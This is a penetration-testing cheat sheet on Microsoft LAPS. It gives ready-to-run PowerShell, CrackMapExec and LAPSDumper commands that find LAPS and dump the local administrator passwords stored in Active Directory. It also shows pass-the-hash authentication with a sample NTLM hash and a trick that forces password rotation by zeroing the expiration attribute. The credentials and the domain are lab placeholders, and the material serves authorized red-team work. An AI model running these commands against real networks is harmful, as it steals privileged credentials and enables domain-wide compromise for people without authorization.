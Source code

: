 # LAPS

* [https://adsecurity.org/?p=1790](https://adsecurity.org/?p=1790)




## Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```




## Get Passwords



### PowerShell


#### ActiveDirectory

Query LDAP for AD computer objects with their passwords and its expiration date:

```
PS > $laps = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime -Server DC01 | ? {$_.'ms-Mcs-AdmPwd'} | select Name,ms-Mcs-AdmPwd,@{label="ExpDate";Expression={([datetime]::FromFileTime([convert]::ToInt64($_.'ms-Mcs-AdmPwdExpirationTime')))}}
PS > $laps | select -First 10
```

Check the name of enabled local administrators on a remote machine:

```
PS > Get-CimInstance -ComputerName SRV01 -ClassName Win32_Group -Filter "Name='Administrators'" | Get-CimAssociatedInstance -Association Win32_GroupUser | ? {$_.Disabled -eq $false} | fl
```

Change LAPS password (just zero the expiration time attribute):

```
PS > Get-ADComputer PC01 -Properties ms-MCS-AdmPwdExpirationTime| % {Set-ADComputer -Identity $_ -Replace @{"ms-MCS-AdmPwdExpirationTime" = "0"}}
```


#### Get-LAPSPasswords

* [https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/](https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/)
* [https://github.com/kfosaaen/Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)

```
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > Get-LAPSPasswords -DomainController 10.10.13.37 -Credential $cred | fl
```


#### LAPSToolkit

* [https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)
* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

Enumerate LAPS groups and permissions:

```
PS > $lapsGroups = Find-LAPSDelegatedGroups
PS > $lapsRights = Find-AdmPwdExtendedRights
```

Get passwords:

```
PS > Get-LAPSComputers
```



### CrackMapExec

* [https://github.com/T3KX/Crackmapexec-LAPS](https://github.com/T3KX/Crackmapexec-LAPS)

```
$ cme smb <DC_IP> -u snovvcrash -p 'Passw0rd!' -M laps
```



### LAPSDumper

* [https://github.com/n00py/LAPSDumper](https://github.com/n00py/LAPSDumper)

```
$ python laps.py -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python laps.py -d megacorp.local -l DC01.megacorp.local -u snovvcrash -p aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```
